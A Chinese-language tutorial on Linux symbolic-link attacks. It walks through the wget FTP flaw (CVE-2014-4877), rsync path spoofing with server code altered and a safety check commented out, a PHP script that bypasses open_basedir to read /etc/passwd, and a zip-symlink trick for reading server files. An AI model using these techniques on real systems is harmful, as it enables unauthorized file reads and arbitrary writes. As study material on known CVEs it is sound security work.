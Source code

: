 # linux symbolic link attack tutorial

0×00 前言
=====

Linux作为应用最广泛的开源系统，其中独特的文件系统可以算是支撑Linux强大功能 的核心组件之一，而在文件系统中，符号链接(symbolic link )形如"月光宝盒"般可以穿 梭时空，自由穿越森严的路径限制，此一特性，使其地位在整个Linux系统中占有重要 一席，本文将通过实际分析与研究，深入探讨因对符号链接处理不当，可能造成的各类 安全问题，以引发对此类问题的重视。

0×01 客户端
=====

客户端递归处理文件时,通过符号链接穿越可造成任意文件写入,代码执行。

案例:

1. Wget ftp symbolic link attack (CVE-2014-4877)
------------------------------------------------

* * *

wget 递归下载ftp站点时,如 wget -m ftp://127.0.0.1,在服务端伪造如下数据

```
lrwxrwxrwx 1 root root 33 Oct 11 2013 fakedir -> /tmp
drwxrwxr-x 15 root root 4096 Oct 11 2013 fakedir

```

会在本地建立一个名称为fakedir的symbolic link ,指向/tmp 目录,当wget 发送 cwd 指令递归进入fakedir 在发送 LIST 指令。此时可以伪造一个恶意文件或者

目录比如:

```
-rwx------ 1 root root 21 Aug 29 2013 pwned

```

RETR 指令下载pwned 文件时,返回文件内容(二进制或者文本)。即可欺骗wget 客户端任意目录写入。

具体利用脚本: https://github.com/yaseng/pentest/blob/master/exploit/wget-symlink_attack_exploit.py

漏洞演示:

```
Server(attacker)  wget-symlink_attack_exploit.py
Client(victim)    wget -m ftp://127.0.0.1

```

![enter image description here](http://drops.javaweb.org/uploads/images/133b64e743f5057307d3cd8457a33c679acf11b3.jpg)

2:Rsync path spoofing attack vulnerability(CVE-2014-9512 )
----------------------------------------------------------

* * *

笔者分析wget漏洞之后,发现rsync递归同步文件时,同样可以用符号链接来 欺骗路径,由于rsync双向文件处理算法比较复杂,无法直接用字符串伪造文件流。 首先rsync共享文件夹新建symbolic link 指向/root/,

```
[root@pentest rsync]# ls  -lh
total 8.0K
-rw-r--r-- 1 root root    2 Oct 31 03:16 1.txt
lrwxrwxrwx 1 root root    6 Oct 31 05:09 fakedir -> /root/
drwxr-xr-x 2 root root 4.0K Oct 31 05:08 truedir

```

truedir 中写入测试文件

```
[root@pentest rsync]# cd  truedir/
[root@pentest truedir]# ls
[root@pentest truedir]# echo rsync  test  >  pwned
[root@pentest truedir]# ls -lh
total 4.0K
-rw-r--r-- 1 root root 11 Oct 31 05:17 pwned
[root@pentest truedir]# 

```

再修改服务端发送文件列表的代码

```
file: rsync-3.1.1/flist.c    line:394
static void send_file_entry(int f, const char *fname, struct file_struct *file,
#ifdef SUPPORT_LINKS
                const char *symlink_name, int symlink_len,
#endif
                int ndx, int first_ndx)
{
  if(strcmp(fname,"turedir/pwned") == 0){

    fname="fakedir/pwned";  // symbolic link 
//change  file  true path(truedir) to  symbolic link  (fakedir)
)
}

```

由于服务端有严格的数据校验,此时会报错 "received request to transfer non-regular file fakedir/pwned.test 7 [sender]",导致客户端同步无法执行 但是对于攻击者来说,服务端是可控的,找到对应代码直接注释。

```
/* if (iflags & ITEM_TRANSFER) {
        int i = ndx - cur_flist->ndx_start;
        if (i < 0 || !S_ISREG(cur_flist->files[i]->mode)) {
            rprintf(FERROR,
                "received request to transfer non-regular file: %d [%s]\n",
                ndx, who_am_i());
            exit_cleanup(RERR_PROTOCOL);
        }
    }
*/

```

漏洞演示:

![enter image description here](http://drops.javaweb.org/uploads/images/842b745f1c8666ba3cd7cf9f772a34efa4c895e8.jpg)

client(victim):

![enter image description here](http://drops.javaweb.org/uploads/images/124331bfde1d14e5ddecbb180f7ea8d347b54399.jpg)

0×02 web 程序
=====

当通过http访问文件时,web server 对符号链接处理不当可能导致越权访问,文件 读取等安全隐患。

案例:

1. php 通用绕过 open_basedir 读取任意文件
-------------------------------

* * *

使用函数symlink 与 mkdir 创建一个指向目标的符号链接,代码如下

```
<?php
mkdir("abc");
chdir("abc");
mkdir("etc");
chdir("etc");
mkdir("passwd");
chdir("..");
mkdir("abc");
chdir("abc");
mkdir("abc");
chdir("abc");
mkdir("abc");
chdir("abc");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("abc/abc/abc/abc","tmplink");
symlink("tmplink/../../../etc/passwd", "exploit");
unlink("tmplink");  //删除
mkdir("tmplink");
?>

```

生成文件

```
drwxr-xr-x 4 www www 512 Oct 20 00:37 abc
lrwxr-xr-x 1 www www 27 Oct 20 00:37 exploit -> tmplink/../../../etc/passwd
- -rw-r--r-- 1 www www 356 Oct 20 00:32 kakao.php
- -rw-r--r-- 1 www www 45 Oct 20 00:26 sym.php
drwxr-xr-x 2 www www 512 Oct 20 00:37 tmplink

```

exploit 已经指向/etc/passwd,通过web server 如Apache 直接静态访问,可以绕过php open_basedir 保护读取文件。

2. facebook 本地文件读取
------------------

* * *

当服务端会自动解压zip,tar 等支持符号链接的压缩格式时。可以通过符号链接读取服务器文件 例如facebook 本地文件读取

```
1. 创建一个符号链接文件指向/etc/passwd 

ln -s /etc/passwd link 

2. 压缩文件，同时保留链接 
zip --symlinks test.zip link 

3. 上传test.zip文件，系统会自动解压缩 

4. 页面当中会返回/etc/passwd的内容

```

如图

![enter image description here](http://drops.javaweb.org/uploads/images/13543f8e9b6b0fb5d794287b3d4e6d0ab5996fe4.jpg)

0×03 参考链接
=====

1:CVE-2014-4877 wget ftp下载文件夹链接欺骗漏洞分析 http://xteam.baidu.com/?p=30

2:Rsync path spoofing attack vulnerability http://xteam.baidu.com/?p=169

3:Php open_basedir bypass http://cxsecurity.com/issue/WLB-2009110068

4:Reading local files from Facebook's server http://josipfranjkovic.blogspot.com/2014/12/reading-local-files-from-facebooks.html